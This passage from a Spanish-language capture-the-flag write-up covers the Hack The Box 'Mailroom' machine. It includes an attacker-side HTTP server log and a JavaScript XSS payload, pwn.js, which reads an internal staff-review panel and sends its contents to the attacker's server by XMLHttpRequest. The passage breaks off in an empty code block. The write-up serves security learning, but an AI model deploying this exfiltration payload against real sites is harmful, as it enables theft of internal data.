 Peticion en nuestro servidor.
{% highlight sh %}
λ ubuntu-pc Mailroom → server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.209 - - [13/Aug/2023 20:47:49] code 404, message File not found
10.10.11.209 - - [13/Aug/2023 20:47:49] "GET /enum/pwn.js HTTP/1.1" 404 -
{% endhighlight %}

Veamos si podemos obtener el contenido de `staff-review-panel.mailroom.htb`.

No pude hacer funcionar `fetch`, por alguna razon no funciona, utilizare XMLHttpRequest.

`pwn.js`
{% highlight javascript %}
const l1nvx = "http://10.10.14.189:8000";
const url = "http://staff-review-panel.mailroom.htb";

function main() {
    try {
        const req = new XMLHttpRequest();
        req.onreadystatechange = () => {
            if (req.readyState === XMLHttpRequest.DONE) {
                // Enviar el contenido
                const req_ = new XMLHttpRequest();
                req_.open("GET", `${l1nvx}/?data=${encodeURIComponent(req.responseText)}`, false);
                req_.send();
            }
        }
        req.open("GET", url, false);
        req.send();
    } catch (error) {
        // Enviar error
        const req = new XMLHttpRequest();
        req.open("GET", `${l1nvx}/?error=${encodeURIComponent(error)}`, false);
        req.send();
    }
}
main();
{% endhighlight %}

Obtenemos el contenido.

{% highlight sh %}